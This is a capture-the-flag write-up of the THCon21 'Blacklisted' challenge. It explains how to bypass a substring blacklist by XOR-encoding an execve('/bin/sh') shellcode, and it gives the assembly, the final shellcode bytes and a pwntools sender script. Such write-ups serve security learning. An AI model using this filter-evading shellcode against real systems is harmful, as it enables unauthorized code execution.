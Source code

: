 ```yaml
---
title: "THCon21 - Blacklisted"
date: 2021-06-14T16:29:05+02:00
draft: false
tags: [pwn]
# image: "/image/blog-pic.jpg"
description: "A shellcoding challenge from THCon21"
showDate: true          # to enable/disable showing dates
math: true              # to enable showing equations (katex)
---
```


# THCon21 - Blacklisted

[Go back to write-ups list](../)

> **Category:** Intro
> 
> **Creator:** Voydstack
> 
> **Description:**
> 
> Don't say the magic word !
> 
> **Attachments:**
> - [blacklisted](/files/thcon21/blacklisted)

## Analysing the binary

The attachment is an ELF x64 binary. I opened it in IDA and went to the `main` function. It basically calls `check_blacklist` on the user input, and if it returns 0,the user input will be executed as a shellcode.

*Note: the maximum length for the shellcode is 64 bytes*

Here is the `check_blacklist` function:

![check_blacklist function](/image/thcon21/check_blacklist.png)

And here is the blacklist that comes with it:

![The blacklist](/image/thcon21/blacklist.png)

As you can see, we can't use the words `"/bin/"`, `"/tmp/"`, `"flag.txt"` and `"sh"`, which is kind of annoying considering that most shellcodes just put `/bin/sh` in the right register and call the `execve` shellcode.

## Shellcoding

The first thing I did was to copy a basic x86_64 execve('/bin/sh') shellcode which I found [here](https://www.exploit-db.com/exploits/42179). Now to edit the shellcode, I used an online tool (because I love online tools) to [disassemble from hex and assemble to hex online](https://defuse.ca/online-x86-assembler.htm) which is perfect for shellcoding (and it supports 32-bit and 64-bit). I got this assembly code:

```asm
push   rax
xor    rdx,rdx
xor    rsi,rsi
movabs rbx,0x68732f2f6e69622f

push   rbx
push   rsp
pop    rdi
mov    al,0x3b
syscall
```

The thing moved in rbx is the hexadecimal representation of `hs//bin/` which will make the final shellcode contain both `/bin/` and `sh`, so we need to find a way to prevent this.

I decided to put in the shellcode the string `hs//bin/` xored with `0x4242424242424242` instead of putting it in plain. Now I would just need to xor it with the same value in the shellcode to recover the original string in the register. Here is how I did:

```asm
push   rax
xor    rdx,rdx
xor    rsi,rsi
movabs rbx,0x2a316d6d2c2b206d ; path xored with 0x42
movabs rax,0x4242424242424242 ; xor key
xor    rbx,rax                ; we can't xor rbx with a 64 bits value directly
                              ; so we put the value in rax first
push   rbx
push   rsp
pop    rdi
xor    rax,rax
mov    al,0x3b
syscall
```

*Note: since we altered `rax` to store our xor key, we need to reset rax before setting `al`, because the `syscall` instruction seems to use the entire `rax` registry instead of just `al`*

This gives us our final shellcode :
```
\x50\x48\x31\xD2\x48\x31\xF6\x48\xBB\x6D\x20\x2B\x2C\x6D\x6D\x31\x2A\x48\xB8\x42\x42\x42\x42\x42\x42\x42\x42\x48\x31\xC3\x53\x54\x5F\x48\x31\xC0\xB0\x3B\x0F\x05
```

And here is a little Python script using pwntools to send the shellcode to the remote challenge:

```py
from pwn import *

conn = process("./blacklisted")

conn.recv()
conn.send("\x50\x48\x31\xD2\x48\x31\xF6\x48\xBB\x6D\x20\x2B\x2C\x6D\x6D\x31\x2A\x48\xB8\x42\x42\x42\x42\x42\x42\x42\x42\x48\x31\xC3\x53\x54\x5F\x48\x31\xC0\xB0\x3B\x0F\x05")
conn.interactive()
```

![Script execution](/image/thcon21/blacklisted_solved.png)

[Go back to write-ups list](../)